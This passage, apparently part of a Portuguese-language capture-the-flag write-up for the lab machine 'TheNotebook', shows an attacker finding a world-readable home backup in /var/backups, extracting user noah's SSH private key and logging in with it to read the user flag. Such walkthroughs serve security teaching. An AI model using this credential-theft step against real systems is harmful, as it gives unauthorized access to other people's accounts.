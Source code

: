 Com este item também foi mencionado nas notas encontradas na aplicação, iniciando pela inspeção dos arquivos em `/var/backups`, notei que temos alguns arquivos aos quais não temos acesso, porém um deles me chamou a atenção, sendo o arquivo `home.tar.gz`, com acesso de leitura global, possivelmente contendo algum tipo de informação.

```bash
www-data@thenotebook:/var/backups$ ls -la
total 696
drwxr-xr-x  2 root root     4096 Jun 11 06:26 .
drwxr-xr-x 14 root root     4096 Feb 12 06:52 ..
-rw-r--r--  1 root root    51200 Jun 11 06:25 alternatives.tar.0
-rw-r--r--  1 root root    33252 Feb 24 08:53 apt.extended_states.0
-rw-r--r--  1 root root     3609 Feb 23 08:58 apt.extended_states.1.gz
-rw-r--r--  1 root root     3621 Feb 12 06:52 apt.extended_states.2.gz
-rw-r--r--  1 root root      437 Feb 12 06:17 dpkg.diversions.0
-rw-r--r--  1 root root      172 Feb 12 06:52 dpkg.statoverride.0
-rw-r--r--  1 root root   571460 Feb 24 08:53 dpkg.status.0
-rw-------  1 root root      693 Feb 17 13:18 group.bak
-rw-------  1 root shadow    575 Feb 17 13:18 gshadow.bak
-rw-r--r--  1 root root     4373 Feb 17 09:02 home.tar.gz
-rw-------  1 root root     1555 Feb 12 06:24 passwd.bak
-rw-------  1 root shadow   1024 Feb 12 07:33 shadow.bak
```

Ao extrair o conteúdo deste arquivo, notado que temos algumas informações importantes que vão nos ajudar a obter acesso com a conta do usuário `noah`, sendo este um backup de seu home directory.

```bash
$ tar -xzvf home.tar.gz
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
```

Executando o comando abaixo, com o arquivo obtido do backup, foi possível conectar-se via ssh com a conta `noah` e obter a flag de user

```bash
$ ssh -i id_rsa noah@10.10.10.230
noah@thenotebook:~$ cat user.txt
<redacted>
```

## Root flag
